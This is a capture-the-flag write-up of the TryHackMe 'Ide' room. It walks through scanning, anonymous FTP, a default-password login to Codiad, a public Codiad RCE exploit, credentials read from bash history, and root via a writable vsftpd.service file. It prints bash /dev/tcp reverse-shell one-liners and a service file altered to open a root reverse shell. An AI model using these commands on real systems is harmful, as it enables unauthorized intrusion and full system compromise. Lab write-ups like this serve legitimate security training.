 ## Ide 

Room link: https://tryhackme.com/room/ide

# Scanning 
I ran an aggressive nmap scan to begin. It looked like there are 3 services running on the system, FTP, SSH, and HTTP. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-14 20:17 EDT
Nmap scan report for [Remote IP]
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.236
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```
A full nmap scan showed a random high port as well. 
```
ajread@aj-ubuntu:~/TryHackMe/thm_writeups_publish$ nmap -p- [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-30 18:46 EDT
Nmap scan report for [Remote IP]
Host is up (0.090s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 239.50 seconds
```

# Enumeration 
I first looked into the anonymous ftp login. There was a file called ```-``` nested within a the ```...``` directory. 
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> cd ./-
550 Failed to change directory.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.1163 MB/s)
```
I pulled the ```-``` file from the FTP server and it appeared to be a note. The note itself said the following: 
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
So, I can infer that there are two users named ```john``` and ```drac```. User ```john``` must have a simple password. Before looking back at the random open high port, I ran hydra against the FTP and SSH service with username ```john``` and a simple password list. I was unsuccessful so I knew the credentials must be used somewhere else on the system. 

# Initial Access
I checked out the random high port and found that it was a Codiad IDE interface running on port 62337. I tried to login with a default password for user ```john``` and authenticated! I found a Codiad RCE on exploitdb: ```https://www.exploit-db.com/exploits/49705``` that requires authentication. The RCE appears to be able to write to Codiad within ```components/filemanager/controller.php``` and execute system commands like ```nc``` or ```/bin/bash``` that can be used to call back to a remote machine.

Before running the exploit, it required me to set up a VPS for the connection. So, in one terminal, I set up reverse shell in bash that would pipe to another listener on my machine from the remote connection. 
```
echo 'bash -c "bash -i >/dev/tcp/[Local IP]/10000 0>&1 2>&1"' | nc -lnvp 9999
```
In another terminal on my local machine, I set up the listener on port 10000 to receive the final reverse shell from the remote machine. 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
```
After everything was set up, I ran the exploit and pointed it as the Codiad IDE with the ```john:[REDACTED]``` credentials.
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 49705.py http://[Remote IP]:62337/ john [REDACTED] [Local IP] 9999 linux
```
And, I received a shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
Listening on 0.0.0.0 10000
Connection received on [Remote IP] 57402
bash: cannot set terminal process group (939): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But, I was only the ```www-data``` user. I needed to move to the ```drac``` user in order to see the user flag. 
```
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
After some looking around, I found credentials within user ```drac``` bash history. 
```
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p [REDACTED]
```
I used ssh to log in with the credentials above and found the flag! 
```
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:~$ wc -c user.txt
33 user.txt
```
# Privilege Escalation 
Using  ```sudo -l``` it looked like I could restart vsftpd as root. 
```
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
I looked at the ```vsftpd.service``` file and noticed that I had write permissions. Since ```ExecStartPre``` contains additional commands that are run after ```ExecStart```, I added another ```ExecStartPre``` field to execute a reverse shell using bash after the original ```ExecStartPre```. (This page was a great resource: ```https://www.freedesktop.org/software/systemd/man/systemd.service.html``` if interested). 
```
drac@ide:/lib/systemd/system$ cat vsftpd.service 
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty
ExecStartPre=-/bin/bash -c "bash -i >& /dev/tcp/[Local IP]/8888 0>&1"

[Install]
WantedBy=multi-user.target
```
I started a listener on my local machine to catch the elevated reverse shell on port 8888 above.
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
```
Then, I had to reload the daemon on the remote machine before restarting vsftpd. 
```
drac@ide:/lib/systemd/system$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
```
Finally, I was able to restart the service as root on the remote machine. 
```
drac@ide:/lib/systemd/system$ sudo service vsftpd restart 
```
And it called back to my local machine with an elevated shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on [Remote IP] 35294
bash: cannot set terminal process group (1683): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
